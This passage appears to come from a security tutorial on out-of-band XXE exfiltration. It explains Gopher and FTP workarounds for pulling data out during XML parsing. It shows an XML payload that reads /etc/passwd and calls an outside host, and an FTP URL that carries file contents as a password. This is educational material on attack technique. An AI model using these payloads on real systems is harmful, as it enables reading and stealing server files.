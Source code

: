 ### Out-of-band Exfiltration

XML parsing remotely will not always return content directly. If you are uploading a document such as a data file (`.xml`) or a MS Office document (`.docx`), you might not receive the content parse from those documents.

We need to find a way exfiltrate data **during** the parsing. Unfortunately, it is possible refer to an entity from another entity *in the same DOCTYPE*. This limitation comes from the way XML parsers interpret.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [ 
 <!ENTITY file SYSTEM "file:///etc/passwd">
 <!ENTITY notworking SYSTEM "http://xxe.me/&file;">
]>
<data></data>
```
*This payload will not work*

A workaround for this limitation was discovered by researchers [Alexey Osipov and Timur Yunusov](https://www.youtube.com/watch?v=eBm0YhBrT_c#t=11m51) that allow the construction of URL with data coming from other entities. The first version of this payload uses the Gopher protocol.


![XXE Gopher exfiltration](assets/out-of-bound/external_dtd.gif)

Negative
: In practice, the previous technique is not perfect. Any file with XML incompatible characters (`&`, `\n`, `\x80`, etc) would break the URL. The `/etc/issue` is one of the rare file safe to include.

The previous technique was [updated with a variant](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html). This variant replaces Gopher with the FTP protocol. It is very useful because the Gopher is deprecated and only available on [old version of Java](https://bugzilla.redhat.com/show_bug.cgi?id=865541#c0).


The following payload requires a remote DTD file to be hosted on a web server. The DTD file is taking care of doing the concatenation. The final objective is to evaluate `ftp://test:%file;@my.ftp.server/`. The file content is sent as a password.
